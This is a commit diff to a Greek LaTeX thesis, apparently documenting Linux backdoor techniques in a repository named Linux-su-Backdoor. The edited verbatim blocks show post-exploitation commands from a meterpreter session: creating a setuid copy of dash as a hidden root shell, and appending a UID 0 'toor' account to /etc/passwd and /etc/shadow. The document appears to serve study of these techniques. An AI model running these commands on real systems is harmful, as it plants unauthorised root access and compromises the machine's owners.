

Before and after one commit to dpolitis/Linux-su-Backdoor, a LaTeX thesis (Documentation_el.tex): two parts of pages 8 and 9 of 19 before the commit and part of page 9 of 19 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Add files via upload

```diff
--- a/Documentation_el.tex
+++ b/Documentation_el.tex
@@ -349,8 +350,9 @@ meterpreter > systemctl restart sshd
 \selectlanguage{english}
 \begin{scriptsize}
 \begin{verbatim}
-meterpreter > cp -a /bin/dash /bin/tash
-meterpreter > chmod a+s /bin/tash
+meterpreter > shell
+sh# cp -a /bin/dash /bin/tash
+sh# chmod a+s /bin/tash
 \end{verbatim}
 \end{scriptsize}
 \selectlanguage{greek}
@@ -361,13 +363,14 @@ meterpreter > chmod a+s /bin/tash
 \selectlanguage{english}
 \begin{scriptsize}
 \begin{verbatim}
-meterpreter > useradd -m -U -G sudo user1
-meterpreter > passwd user1
-meterpreter > useradd -m -U user2
-meterpreter > passwd user2
-meterpreter > echo 'toor:*:17153:0:99999:7:::' >> /etc/shadow
-meterpreter > echo 'toor:x:0:0:toor:/toor:/bin/sh' >> /etc/passwd
-meterpreter > passwd toor
+meterpreter > shell
+sh# useradd -m -U -G sudo user1
+sh# passwd user1
+sh# useradd -m -U user2
+sh# passwd user2
+sh# echo 'toor:*:17153:0:99999:7:::' >> /etc/shadow
+sh# echo 'toor:x:0:0:toor:/toor:/bin/sh' >> /etc/passwd
+sh# passwd toor
 \end{verbatim}
 \end{scriptsize}
 \selectlanguage{greek}
```
Also changed, not shown: Documentation_el.pdf, Documentation_el.tex (17 more changed lines).
